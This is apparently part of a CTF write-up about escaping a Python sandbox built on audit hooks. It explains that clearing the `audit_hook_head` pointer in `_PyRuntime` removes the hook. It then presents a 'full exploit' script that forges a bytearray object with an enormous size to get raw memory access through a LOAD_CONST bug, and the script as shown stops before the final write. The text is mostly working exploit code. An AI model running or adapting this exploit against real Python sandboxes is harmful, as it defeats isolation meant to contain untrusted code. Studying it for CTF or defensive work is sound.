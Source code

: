Audit hooks is a NULL-terminate linked list stored in `audit_hook_head` in python runtime object. It's a global variable in the interpreter. We can get its address with:

```
# Address depends on the interpreter
_PyRuntime = 0x7f8a102c8c40 - 0x7f8a1028d940 + id(type)
audit_hook_head = _PyRuntime + 0x5b0
```

Clear that pointer will remove the sandbox hook :)

Here is my full exploit:

```python
# Reference: https://doar-e.github.io/blog/2014/04/17/deep-dive-into-pythons-vm-story-of-load_const-bug/

import types
import sys
print(sys.version)

def p8(s):
    return s.to_bytes(1, 'little')

def p16(s):
    return s.to_bytes(2, 'little')

def p32(s):
    return s.to_bytes(4, 'little')

def p64(s):
    return s.to_bytes(8, 'little')

def pwn():
    print(1)


print(hex(id(type)))
# _PyRuntime = 0x7ffff7f474a0 - 0x7ffff7f3e160 + id(type)
_PyRuntime = 0x7f8a102c8c40 - 0x7f8a1028d940 + id(type)
audit_hook_head = _PyRuntime + 0x5b0

# heap
z = []
for i in range(100):
    z.append((i,))
consts = z[-1]

# bytesobject raw data offset
raw_off = 0x20

buf_obj = (
    # REF_CNT             TYPE
    p64(0xffff)         + p64(id(bytearray)) +
    # SIZE                SIZE
    p64(0x7fffffffffff) + p64(0x7fffffffffff) +
    # BUF                 START
    p64(0)              + p64(0)
    )

s = p64(id(buf_obj) + raw_off)
addr_s = id(s) + raw_off
addr_c = id(consts)
print(addr_s - addr_c)
print(hex(addr_s))
print(hex(addr_c))
```